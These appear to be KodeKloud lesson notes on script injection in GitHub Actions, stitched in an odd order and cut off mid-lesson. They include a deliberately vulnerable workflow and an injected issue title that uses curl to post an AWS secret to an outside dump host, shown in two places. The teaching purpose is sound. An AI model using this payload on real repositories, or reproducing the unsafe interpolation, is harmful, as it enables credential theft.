



# Workflow environment shows the raw payload but does not execute it:
env:
  AWS_SECRET_ACCESS_KEY: ***
  issue_title: bug"; curl --request POST --data anything=$AWS_SECRET_ACCESS_KEY \
    https://httpdump.app/dumps/c2a7d181-5768-4cb5-a930-4d016c38d7d2

# Execution output:
Issue is about a bug!
Assigning Label - BUG
```

Even though the payload appears in `issue_title`, the `curl` never executes. Your secret remains safe.

## Further Security Hardening

Go beyond input sanitization to fully secure your workflows:

* **Least Privilege**: Grant minimal permissions to tokens and service accounts.
* **Action Pinning**: Pin actions to specific versions or commit SHAs.
* **Third-Party Review**: Audit community actions before use.
* **Avoid Inline Scripts**: Use dedicated action steps or scripts in your repo.

<Callout icon="triangle-alert">
  Never expose secrets in logs or pass untrusted input to shell commands without sanitization.
</Callout>

## References

* [GitHub Actions Security Hardening](https://docs.github.com/actions/security-guides/security-hardening-for-github-actions)
* [GitHub Expressions](https://docs.github.com/actions/expressions)
* [Bash Reference Manual](https://www.gnu.org/software/bash/manual/)

<CardGroup>
  <Card title="Watch Video" icon="video" href="https://learn.kodekloud.com/user/courses/github-actions-certification/module/a3e810f5-af92-4e1c-ac54-bdf50ddbe9cf/lesson/f2e8cafb-2cac-4747-90b0-f101c10cf961" />
</CardGroup>


# Risk of Script Injection Attack

Source: https://notes.kodekloud.com/docs/GitHub-Actions-Certification/Security-Guide/Risk-of-Script-Injection-Attack/page

This article discusses the risks of script injection attacks in GitHub Actions due to untrusted input and how it can compromise workflows and expose secrets.

In GitHub Actions, accepting untrusted input—like an issue title—can enable attackers to inject shell commands that run on your runner. This not only compromises your workflow but also exposes sensitive secrets. In this lesson, we’ll walk through how a simple “bug” label workflow can be abused and how secrets might be exfiltrated.

<Callout icon="lightbulb">
  User-supplied data from GitHub events (e.g., `github.event.issue.title`) should never be used directly in `run` steps without proper validation or sanitization.
</Callout>

## Example Workflow

The following workflow labels new issues that contain the word **bug**. It reads the issue title from the event payload and uses a shell `if` test to decide whether to print messages.

```yaml theme={null}
name: Label Issues (Script Injection)

on:
  issues:
    types: [opened]

jobs:
  assign-label:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4.1.1

      - name: Add a Label
        env:
          AWS_SECRET_ACCESS_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}
        run: |
          issue_title="${{ github.event.issue.title }}"
          if [[ "$issue_title" == *"bug"* ]]; then
            echo "Issue is about a bug!"
            echo "Assigning Label - BUG................"
          else
            echo "Not a bug"
          fi
```

This workflow:

* Checks out the repository.
* Retrieves the issue title.
* Logs a message and (hypothetically) assigns a **BUG** label if the title contains “bug.”

## Triggering and Initial Test

1. Push the workflow file to your `main` branch.
2. Open a new issue with the title `bug in code`.

When the workflow runs, it completes successfully:

<Frame>
  
</Frame>

## Demonstrating Script Injection

An attacker can sneak shell commands into the title by using operators like `:` or `;`. For instance:

* **Title:**\
  `bug: ls $GITHUB_WORKSPACE`
* **Body:**\
  `testing.`

<Frame>
  
</Frame>

When the workflow executes, the injected `ls` command runs on the runner and prints the workspace contents:

<Frame>
  
</Frame>

## Exfiltrating Secrets

Beyond harmless commands, attackers can leak secrets. Consider this malicious issue title:

```bash theme={null}
bug"; curl --request POST --data anything=$AWS_SECRET_ACCESS_KEY https://httpdump.app/dumps/c2a7d181-5768-4cb5-a930-4d016c38d7d2
```

Once the workflow runs, it executes the `curl` request and posts your secret:

```bash theme={null}
